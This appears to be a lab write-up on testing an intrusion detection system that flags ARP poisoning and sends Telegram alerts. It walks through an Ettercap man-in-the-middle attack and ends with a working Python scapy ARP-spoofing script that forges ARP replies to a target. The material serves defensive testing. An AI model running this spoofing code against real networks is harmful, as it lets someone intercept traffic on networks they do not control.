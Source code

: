 
## Step 2: Execute ARP MITM Attack on the Attacker Machine

- **On the attacker machine (preferably Kali Linux), run ARP MITM attack using Ettercap**:
    - Add target’s IP as Target 1
    - Add router’s IP (default gateway) as Target 2
        
        ![Screenshot 2024-05-30 at 21.17.24.png](IDS%20-%20Detecting%20ARP%20poisoning%20attack,%20send%20warning%20eea0180004ee4e5d9aebb434f8d5d81f/Screenshot_2024-05-30_at_21.17.24.png)
        
    - Start MITM Attack: ARP Poisoning
        
        ![Screenshot 2024-05-30 at 21.15.07.png](IDS%20-%20Detecting%20ARP%20poisoning%20attack,%20send%20warning%20eea0180004ee4e5d9aebb434f8d5d81f/Screenshot_2024-05-30_at_21.15.07.png)
        

## Step 3: Verify ARP Spoofing Detection

- Check the output for ARP poisoning detection:
- Ensure the ARP spoofing detection alert is printed.
    
    ![Screenshot 2024-05-30 at 21.14.57.png](IDS%20-%20Detecting%20ARP%20poisoning%20attack,%20send%20warning%20eea0180004ee4e5d9aebb434f8d5d81f/Screenshot_2024-05-30_at_21.14.57.png)
    

- Verify that a warning message is sent through Telegram
    
    ![Screenshot 2024-05-30 at 21.15.18.png](IDS%20-%20Detecting%20ARP%20poisoning%20attack,%20send%20warning%20eea0180004ee4e5d9aebb434f8d5d81f/1289f3d8-798d-47f5-9037-c40548841751.png)
    
- Use Wireshark to capture packets and confirm that a duplicate IP address is detected.
    
    ![Screenshot 2024-05-30 at 21.23.33.png](IDS%20-%20Detecting%20ARP%20poisoning%20attack,%20send%20warning%20eea0180004ee4e5d9aebb434f8d5d81f/Screenshot_2024-05-30_at_21.23.33.png)
    

```python
#!/usr/bin/env python3
from scapy.all import *
from scapy.layers.l2 import Ether, ARP
import os
import sys
import time

packet_count = 0  # Global variable to count packets

def get_mac(ip):
    # Send ARP request to get the MAC address of the IP
    ans, unans = arping(ip, verbose=False)
    for snt, rcv in ans:
        return rcv[Ether].src
    return None

def spoof(target_ip, spoof_ip, target_mac):
    global packet_count
    # Create ARP response packet
    arp_response = ARP(op=2, pdst=target_ip, hwdst=target_mac, psrc=spoof_ip)
    ether = Ether(dst=target_mac)
    packet = ether / arp_response
    sendp(packet, verbose=False)
    packet_count += 1
    print(f"[*] Sent ARP spoof packet {packet_count} to {target_ip}")

def restore(target_ip, source_ip, target_mac, source_mac):
    global packet_count
    # Create ARP response packet to restore the ARP table
    arp_response = ARP(op=2, pdst=target_ip, hwdst=target_mac, psrc=source_ip, hwsrc=source_mac)
    ether = Ether(dst=target_mac)
    packet = ether / arp_response
    sendp(packet, count=4, verbose=False)
    packet_count += 4  # We are sending 4 packets in restore function
```